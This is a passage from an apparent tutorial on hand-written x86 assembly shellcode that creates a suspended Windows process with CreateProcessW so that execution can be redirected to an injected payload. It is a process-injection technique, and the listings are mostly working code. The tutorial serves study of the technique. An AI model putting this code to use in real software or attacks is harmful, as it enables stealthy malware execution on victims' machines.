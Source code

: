 {% highlight Nasm linenos %}
xor ecx, ecx            ; Zero EXC to be used as a counter
mov cl, 0x54            ; Set EXC (via CL) to 0x54, the number of bytes
                        ; to allocate
create_empty_structure:
pop ebx                 ; Preserve EBX
xor eax, eax            ; Zero EAX
sub esp, ecx            ; Allocate stack space for the two structures
mov edi, esp            ; set EDI to point to the STARTUPINFO structure
push edi                ; Preserve EDI on the stack as it will be 
                        ; modified by the following instructions
rep stosb               ; Repeat storing zero at the buffer starting 
                        ; at EDI until ECX is zero
pop edi                 ; restore EDI to its original value
push ebx                ; Restore EBX
ret
{% endhighlight %}
<p align="center">
    <em>Code Listing 6: Initializing an Empty Structure</em>
</p>

The above assembly code creates a **0x54** byte region on the stack, zeros it out and stores its location in **EDI**. There is one value in the **STARTUPINFOW** structure which must be initialized with the length of the structure, which is **0x44** bytes. Referring to the documentation, the first element in the **STARTUPINFOW** structure is **cb** and it contains the length of the structure. The following assembly code will complete the initialization of the two structures.

{% highlight Nasm linenos %}
mov byte[edi], 0x44    ; Set the cb member value of the STARTUPINFOW
                       ; structure to 0x44
{% endhighlight %}
<p align="center">
    <em>Code Listing 7: Setting the cb Value in the STARTUPINFOW Structure</em>
</p>

### Calling CreateProcessW
With the required structures in place, all that remains is to push the required arguments of the **CreateProcessW** Win32 API to the stack and call it. The **dwCreationFlags** value will be set to **0x04**. According to the [documentation](https://docs.microsoft.com/en-us/windows/desktop/ProcThread/process-creation-flags), the value **0x04** equates to **CREATE_SUSPENDED**. This will create the process in a suspended state that will allow the process to be manipulated by the assembly program to redirect execution to the injected payload. The following assembly instructions will prepare the arguments on the stack and make the call to **CreateProcessW**.

{% highlight Nasm linenos %}
; Create Suspended Process 
lea esi, [edi+0x44]        ; Load the effective address of the PROCESS_INFORMATION
                           ; structure into ESI
push esi                   ; Push the pointer to the lpProcessInformation 
                           ; structure
push edi                   ; Push the pointer to the lpStartupInfo structure
push eax                   ; lpCurrentDirectory = NULL
push eax                   ; lpEnvironment = NULL
push 0x04                  ; dwCreationFlags = CREATE_SUSPENDED
push eax                   ; bInheritHandles = FALSE
push eax                   ; lpThreadAttributes = NULL
push eax                   ; lpProcessAttributes = NULL
push dword [ebp+0x40]      ; lpCommandLine = current process
push eax                   ; lpApplicationName = NULL
call [ebp+0x08]            ; Call CreateProcessW
{% endhighlight %}
<p align="center">
    <em>Code Listing 8: Calling CreateProcessW with Assembly</em>
</p>
